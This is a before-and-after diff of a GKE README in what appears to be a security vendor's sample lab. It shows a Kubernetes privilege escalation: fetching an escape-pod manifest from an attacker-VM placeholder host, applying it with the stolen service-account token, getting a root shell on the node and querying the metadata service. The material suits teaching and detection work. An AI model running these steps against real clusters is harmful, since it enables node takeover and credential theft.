

Before and after one commit to mondoohq/samples, a Markdown page: gke/README.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
gke/README.md++ , added pod+++
Signed-off-by: Manuel Weber <manuel@mondoo.com>

````diff
--- a/gke/README.md
+++ b/gke/README.md
@@ -427,6 +428,33 @@ curl -vk http://<attacker_vm_public_ip>8001/pod-esc.yaml -o /tmp/pod-esc.yaml
 ```bash
 kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/  apply -f /tmp/pod-esc.yaml
 ```
+```
+pod/priv-and-hostpid-exec-pod created
+```
+
+**Access the node via the just created escape pod**
+```
+kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/  exec -it priv-and-hostpid-exec-pod -n default  -- sh
+```
+```
+Unable to use a TTY - input is not a terminal or the right kind of file
+```
+**Now you can run commands on the node**
+```
+id
+```
+```
+uid=0(root) gid=0(root) groups=0(root)
+```
+
+**Verifying you are on the node via the Google Metadata Service**
+```
+curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/hostname
+```
+```
+gke-lunalectric-gke--lunalectric-pool-0e144d64-33rz.us-central1-f.c.manuel-development-3.internal
+```
+
 
 ## Mondoo scan commands
 
````
Also changed, not shown: other parts of gke/README.md (+1 -0 lines).
